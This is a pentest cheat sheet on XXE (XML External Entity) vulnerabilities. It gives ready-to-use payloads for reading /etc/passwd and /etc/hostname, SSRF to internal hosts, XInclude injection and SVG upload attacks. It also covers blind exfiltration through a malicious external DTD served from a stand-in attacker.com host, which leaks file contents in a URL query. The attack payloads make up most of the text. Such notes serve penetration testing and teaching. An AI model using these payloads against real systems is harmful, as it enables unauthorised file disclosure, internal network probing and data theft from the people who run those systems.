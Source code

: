 ```yaml
---
title: "XXE"
weight: 30
description: "Learn to detect and exploit XXE (XML External Entity) vulnerabilities. These pentest notes cover file retrieval, SSRF, blind XXE techniques (OAST, error-based), XInclude, and more attack vectors."
---
```


# XXE

{{< details summary="Introduction" >}}

**What is XML**

* Some applications use the XML format to transmit data between the browser and the server.
* Its popularity has now declined in favor of the JSON format

**XXE Impact**

* Retrieve files
* Perform SSRF attacks

{{< /details >}}

---

## Retrieve files

1. Introduce (or edit) a `DOCTYPE` element defining an external entity with the file path.
2. Edit a data value in the XML returned in the app's response to use the defined external entity.

{{< hint style=notes >}}
To systematically test for XXE, test each data node in the XML individually using your defined entity to see if it appears in the response.
{{< /hint >}}

***

**Original**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck> 
```

**Exploitation**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

---

## Perform SSRF attacks

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
<stockCheck><productId>1&xxe;</productId><storeId>1</storeId></stockCheck>
```

---

## Blind XXE

### Out-of-band (OAST) techniques

**Detection**

* Detecting as SSRF
  * ```xml
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://attacker.com/"> ]>
    ```
* Regular entities are blocked? Bypass via XML parameter entities
  * ```xml
    <!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://attacker.com"> %xxe; ]>
    ```
  * This XXE payload declares an XML parameter entity called `xxe` and then uses the entity within the DTD

**Exploitation**

1. Start a web server and host on `http://attacker.com/example.dtd` this malicious dtd.

    ```xml
    <!ENTITY % file SYSTEM "file:///etc/hostname">
    <!ENTITY % stack "<!ENTITY &#x25; exfil SYSTEM 'http://attaccker.com/?x=%file;'>">
    %stack;
    %exfil;
    ```

2. Add this external entity

    ```xml
    <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker.com/example.dtd"> %xxe;]>
    ```

{{< hint style=notes >}}
This technique might not work with multiline files.
{{< /hint >}}

### Via error messages

Trigger an XML parsing error message with the file contents.

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

{{< hint style=notes >}}
This works if you notice an error in the response when detecting with OAST (e.g., the reflected URL entered).
{{< /hint >}}

---

## Hidden attack surface

* **First case** - Requests that contain data in XML format
* **Second case -** Requests that do not contain any XML
  * **Detection**: Add entity reference that doesn't exist to cause an error  -> ok it's XML

### XInclude attacks

Some applications receive client-submitted data, embed it on the server-side into an XML document, and then parse the document.

`XInclude` is a part of the XML specification that allows an XML document to be built from sub-documents.

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

```http
POST /product/stock HTTP/2
Host: vulnerable.website.com
[...]

productId=<foo+xmlns%3axi%3d"http%3a//www.w3.org/2001/XInclude">
<xi%3ainclude+parse%3d"text"+href%3d"file%3a///etc/passwd"/></foo>&storeId=1
```

### Via file upload

Some common file formats use XML or contain XML subcomponents. Examples of XML-based formats are office document formats like DOCX and image formats like SVG.

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
    <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

This works if it's used image processing library & support SVG images & allow external entity.

### Via modified content type

Some web app will tolerate other content types.

**Expected request**

```http
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

**Submit following request**

```http
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```
